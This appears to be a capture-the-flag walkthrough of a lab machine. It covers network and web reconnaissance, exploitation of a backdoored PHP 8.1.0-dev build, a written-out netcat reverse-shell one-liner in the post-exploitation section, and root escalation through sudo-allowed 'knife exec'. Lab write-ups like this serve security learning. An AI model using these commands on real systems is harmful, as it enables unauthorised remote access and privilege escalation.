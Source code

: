 <b>

# Information Gathering
I started by pinging the box 4 times to ensure stable connection<br>
`ping -c 4 10.10.10.242`
```
PING 10.10.10.242 (10.10.10.242) 56(84) bytes of data.
64 bytes from 10.10.10.242: icmp_seq=1 ttl=63 time=108 ms
64 bytes from 10.10.10.242: icmp_seq=2 ttl=63 time=109 ms
64 bytes from 10.10.10.242: icmp_seq=3 ttl=63 time=110 ms
64 bytes from 10.10.10.242: icmp_seq=4 ttl=63 time=109 ms
```
After that i ran `nmap` with `-Pn` to skip testing if the target is alive and `-sVC` for version and additional information<br>
`nmap -sVC -Pn 10.10.10.242`
```
Nmap scan report for 10.10.10.242
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<hr>

I also ran `whatweb` with `-a 3` for aggressive (comprehensive) information gathering about the website<br>
`whatweb -a 3 10.10.10.242`
```
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```
<hr>

The website didn't appear to have any links or directories so i try dirbusting with `feroxbuster` but no use either<br>
`feroxbuster -r -k -E -g -C 400,403,404 --auto-tune -u http://10.10.10.242/`
```
200      GET      220l      526w     5815c http://10.10.10.242/
[####################] - 68s    30002/30002   0s      found:1       errors:0      
[####################] - 67s    30000/30000   447/s   http://10.10.10.242/ 
```
I try `dirsearch` just to be sure but no luck either<br>
`dirsearch -F --crawl -u http://10.10.10.242/`
```
[12:10:02] 403 -  277B  - /.ht_wsr.txt                                      
[12:10:02] 403 -  277B  - /.htaccess.bak1                                   
[12:10:02] 403 -  277B  - /.htaccess.orig                                   
[12:10:02] 403 -  277B  - /.htaccess.sample                                 
[12:10:02] 403 -  277B  - /.htaccess.save
[12:10:02] 403 -  277B  - /.htaccess_extra                                  
[12:10:02] 403 -  277B  - /.htaccess_orig
[12:10:02] 403 -  277B  - /.htaccessBAK
[12:10:02] 403 -  277B  - /.htaccessOLD
[12:10:02] 403 -  277B  - /.htaccessOLD2
[12:10:02] 403 -  277B  - /.htaccess_sc
[12:10:02] 403 -  277B  - /.htm                                             
[12:10:02] 403 -  277B  - /.html
[12:10:02] 403 -  277B  - /.htpasswd_test                                   
[12:10:02] 403 -  277B  - /.htpasswds                                       
[12:10:02] 403 -  277B  - /.httr-oauth                                      
[12:10:44] 403 -  277B  - /server-status                                    
[12:10:44] 403 -  277B  - /server-status/ 
```
# Vulnerability Assessment
The server was running `Apache 2.4.41` and using `PHP 8.1.0-dev`
Looking up `php 8.1.0 exploit` leads to this:<br>
https://www.exploit-db.com/exploits/49933
<hr>

The cause of the exploit was an early realease which contained a backdoor<br>
The backdoor was removed but any server that still runs this version allows an attacker to execute arbitrary code by sending the `User-Agentt` header
# Exploitation
Running the exploit, it asked for full URL: `http://10.10.10.242/`<br>
After that it spawned a `pseudo shell`
# Post-Exploitation
The job control is turned off so i couldn't spawn interactive shell no matter what i tried
- `/bin/sh -i`
- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `perl —e 'exec "/bin/sh";'`

In that case, i opened `netcat` listner on port 4444 and executed reverse shell on the `pseudo shell`<br>
- `nc -lvnp 4444` (listener)
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f` (reverse shell)<br>
<hr>

Having reverse shell from `nc`, i upgraded to `interactive shell`<br>
`python3 -c 'import pty; pty.spawn("/bin/sh")'`
<hr>

There was only 1 directory inside `/home` called `james` (which is who we are - `whoami`)<br>
The user flag can be found inside `/home/james/user.txt`<br>
After that i started checking common things but the exploits for them didn't work
- `sudo --version` (sudo version)
- `uname -a` (system information)

Running `sudo -l` to see what i can run as sudo led to this
```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Looking up `usr/bin/knife exploit` gave me this:<br>
https://gtfobins.github.io/gtfobins/knife/

Running the `sudo knife exec -E 'exec "/bin/sh"'` allowed me to become root<br>
The flag was located at `/root/root.txt`
</b>
